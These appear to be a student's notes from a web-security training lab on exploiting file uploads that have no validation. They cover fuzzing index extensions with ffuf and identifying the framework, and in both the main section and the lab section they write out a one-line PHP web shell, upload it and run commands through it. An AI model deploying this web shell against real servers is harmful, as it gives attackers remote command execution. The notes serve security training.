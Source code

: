 # Absent Validation

Basic Exploitation : web application does not have any form of validation filters on the uploaded files

The file selector dialog does not specify any file type, as it says All Files

--> no file type restrictions on the front-end

If no restrictions were specified on the back-end, we might be able to upload arbitrary file types

## Identifying Web Framework

Find /index.ext

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://SERVER_IP:PORT/blog/indexFUZZ

--> using the Wappalyzer extension

## Vulnerability Identification

echo "<?php system($_GET["cmd"]); ?>" > shell.php

Upload shell.php

http://SERVER_IP:PORT/uploads/test.php

## LAB

echo "<?php system('hostname'); ?>" > shell.php

http://83.136.253.251:48204/uploads/shell.php

ng-786011-fileuploadsabsentverification-kiq02-58dfbf7cf7-nbljf 